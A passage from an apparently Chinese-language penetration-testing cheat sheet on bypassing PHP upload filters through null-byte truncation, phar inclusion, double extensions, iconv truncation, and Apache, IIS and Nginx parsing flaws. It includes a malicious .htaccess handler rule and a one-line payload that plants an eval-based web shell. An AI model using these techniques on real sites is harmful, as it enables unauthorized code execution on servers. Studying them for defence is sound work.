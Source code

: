 - PHP过滤上传后缀

  `%00` 截断，`a.php->a.php .jpg->burpsuite(proxy，hex)将空格对应的hex 20修改为00->a.php\0jpg`或`a.php%00.jpg->右键Convert selection->URL->URL-decode`。截断条件：PHP版本<5.3.4且magic_quotes_gpc为OFF（当其为ON的时候，所有单引号，双引号，反斜线，NULL字符都会自动加上反斜线进行转义，类似函数：addslashes(), mysql_escape_string(), mysql_real_escape_string()）。

- [phar](http://www.cnblogs.com/Oran9e/p/6127163.html)

  把`1.php`文件压缩成zip文件，然后改格式为支持上传的类型，比如png(1.php→压缩得到1.zip→重命名→1.png→上传)，这样就会上传成功了，记住文件上传成功的路径，接下来输入`xxx.com/home.php?fp=phar://uploads/xxx.png/1`，这里phar是读zip文件的，因为你刚开始压缩的是1.php文件，这里的1的后面不用加.php了，因为fp把本地文件包含进来的时候已经加.php了。

- 替换后缀名php为jpg

  后缀大小写、双写、特殊后缀如 `php5` 等。特别地，如果只是从左往右替换第一个php，可以上传文件名为`xxx.php.php`，后台仅仅将第一个php替换，因此得到：`xxx.jpg.php`。

- [iconv函数限制上传](https://www.cnblogs.com/milantgh/p/3602141.html)

  如果不管上传什么格式文件，都会自动添加.jpg后缀，可以怀疑是使用了iconv这个函数进行上传限制。由于`string iconv(string $in_charset , string $out_charset , string $str)`在字符编码转换时可能导致字符串截断。当$str中有一个字符不能被目标字符集所表达时，$str从第一个无效字符开始截断并导致一个 E_NOTICE。 假如服务器端使用：`iconv("UTF-8", "gb2312//IGNORE", $str)`（PHP从5.4.0开始，如果不显示指示//IGNORE，字符非法会默认返回FALSE，而不是截断），上传一个`xx.php `，抓包将后面空格对应的hex 20改为0x80-0xEF中任意一个，由于0x80-0xEF不是合法的gb2312字符，因此后面的字符（服务器自动加的.jpg）会被截断。

- [双文件上传](https://www.webshell.cc/2086.html)

  文件上传的地方，右键审查元素，修改action为完整路径（因为需要另存为本地文件），然后复制多一个上传“浏览文件元素”：`<input name="FileName" type="FILE" size="25">`，这样会出现两个浏览文件框，另存为本地文件`1.html`。第一个选择正常jpg文件，第二个选择木马文件，此时点击上传按钮会将两个文件上传。

### [利用解析漏洞](https://www.jianshu.com/p/7275cd4d23a5)

常用搭配：`PHP + MySQL + Apache`，`ASP + Access`，`msSQL + IIS`，其中，识别服务器信息方式：

1. 审查元素，根据页面Header信息判断
2. [第三方平台]()查询
3. 扫描工具获取，如：wwwscan

- Apache 解析漏洞

  - mime.types配置文件定义了Apache能够解析哪些文件类型（白名单），Apache对文件的解析是从右到左开始判断并进行解析，后缀名不在mime.types白名单中，则判断为不能解析的类型，会继续向左进行解析， 如上传文件`phpshell.php.rar.rar.rar.rar` ，因为 Apache 不认识 `.rar` 这个文件类型，所以会一直遍历后缀到 `.php`，然后认为这是一个 PHP 文件。
  - `.htaccess`文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过`.htaccess`文件，可以实现：网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。如果允许上传一个内容为`<FilesMatch "jpg"> SetHandler application/x-httpd-php </FilesMatch> `的`.htaccess`文件，然后再上传文件名包含jpg的木马。此时，Apache通过`.htaccess`文件，发现文件名匹配jpg，就会调用php的解析器进行解析。

- IIS6.0 解析漏洞

  - 目录解析漏洞`/xx.asp/xx.jpg`，创建文件夹名字为`.asp、.asa`的文件夹，其目录内的任何扩展名的文件都被IIS当做asp文件来解析并执行。 
  - 当文件名为 `abc.asp;xx.jpg` 时，会将其解析为 `abc.asp`。
  - IIS6.0默认的可执行文件除了`asp`还包含这三种`asa、cer、cdx`。 

- IIS7.x和Nginx<8.03以CGI 路径解析PHP

  在PHP的配置文件中有一个关键的选项cgi.fix_pathinfo，在本机中位于C:\wamp\bin\php\php5.3.10\php.ini，默认是开启的，当URL中有不存在的文件，PHP就会向前递归解析。 配置如下：

  ```
  location ~ \.php$ {
    root html;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index index.php;
    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
    include fastcgi_param;
  }
  ```
  - 在正常图片后加`/x.php`，就能将文件解析为PHP，如上传文件`test.jpg`，访问地址：`test.jpg/x.php`即被当作php文件解析执行。当访问 `http://www.a.com/path/test.jpg/notexist.php` 时，会将 `test.jpg` 当做 PHP 解析， `notexist.php` 是不存在的文件。
  - 上传名字为`xx.jpg`，内容为: `<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>` ，然后访问`xx.jpg/.php`,在这个目录下就会生成一句话木马`shell.php`。 
